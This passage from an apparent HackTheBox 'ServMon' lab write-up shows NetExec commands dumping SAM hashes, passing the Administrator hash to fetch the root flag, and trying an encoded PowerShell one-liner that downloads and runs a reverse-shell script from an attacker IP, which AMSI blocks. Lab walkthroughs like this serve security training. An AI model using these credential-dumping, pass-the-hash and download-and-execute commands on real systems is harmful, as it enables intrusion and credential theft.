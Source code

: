 Still no Administrator. I try SAM:

```console
$ nxc smb servmon.htb -u nadine -p 'L1k3B1gBut7s@W0rk' --sam
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk (Pwn3d!)
SMB         10.10.10.184    445    SERVMON          [*] Dumping SAM hashes
SMB         10.10.10.184    445    SERVMON          Administrator:500:aad3b435b51404eeaad3b435b51404ee:c8bbef7fd5afe37cbb1aee2264a75fee:::
...
```

There it is!

```console
$ nxc smb servmon.htb -u administrator -H 'c8bbef7fd5afe37cbb1aee2264a75fee' --get-file '/users/administrator/desktop/root.txt' root.txt
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [+] ServMon\administrator:c8bbef7fd5afe37cbb1aee2264a75fee (Pwn3d!)
SMB         10.10.10.184    445    SERVMON          [*] Copying "/users/administrator/desktop/root.txt" to "root.txt"
SMB         10.10.10.184    445    SERVMON          [+] File "/users/administrator/desktop/root.txt" was downloaded to "root.txt"

$ cat root.txt
25650b...
```

That's the system flag, but I still feel like I haven't really owned the machine. Reverse shell attempts still fail:

```console
$ nxc smb servmon.htb -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:c8bbef7fd5afe37cbb1aee2264a75fee' -X 'powershell -e aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAxAC8AYwBvAG4AcAB0AHkAcwBoAC0ANAA0ADMALgBwAHMAMQAgAC0AdQBzAGUAYgBhAHMAaQBjAHAAYQByAHMAaQBuAGcAKQAKAA=='
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [+] ServMon\administrator:c8bbef7fd5afe37cbb1aee2264a75fee (Pwn3d!)
SMB         10.10.10.184    445    SERVMON          [-] Command execution blocked by AMSI
```

But, at least that confirms it's AMSI.

## Post-exploitation

Notes:

- I didn't need to use LigoloNG here, I could have just forwarded the port via SSH since it was running on this Windows target.
- The NSClient++ password was also available via: `nscp web -- password --display`
- See [0xdf's walk-through](https://0xdf.gitlab.io/2020/06/20/htb-servmon.html) for how to manually exploit the NSClient++ vulnerability.

## Open Questions

Unresolved issues encountered while attacking this target.

- I'd like to learn more about bypassing AMSI, but since I'm focused on the OSCP and can safely ignore all AV countermeasures for now, I'll have to come back to this later.
